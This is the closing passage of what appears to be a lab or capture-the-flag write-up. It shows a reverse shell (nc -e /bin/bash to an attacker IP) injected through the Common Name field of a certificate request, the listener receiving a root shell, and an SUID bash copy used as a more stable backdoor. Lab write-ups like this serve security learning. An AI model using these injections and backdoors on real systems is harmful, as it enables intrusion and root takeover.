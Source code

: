 ```zsh
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:$(nc -e /bin/bash 10.10.16.3 1235)
Email Address []:
```

```zsh
~/Tmp > rlwrap nc -nlvp 1235                                                                                                               2m 4s root@kali 02:26:45 AM
listening on [any] 1235 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.195] 33366
cat /root/root.txt
444e2232dXXXXXXXXXXXXXXXXXXXXX73f1
```

The reverse shell you get with this method breaks off very fast. You can instead do something like

`cp /bin/bash /dev/shm/; chown root:root /dev/shm/bash; chmod +s /dev/shm/bash`

to get a more stable shell.

I hope you enjoyed this read. Thanks for reading :))).
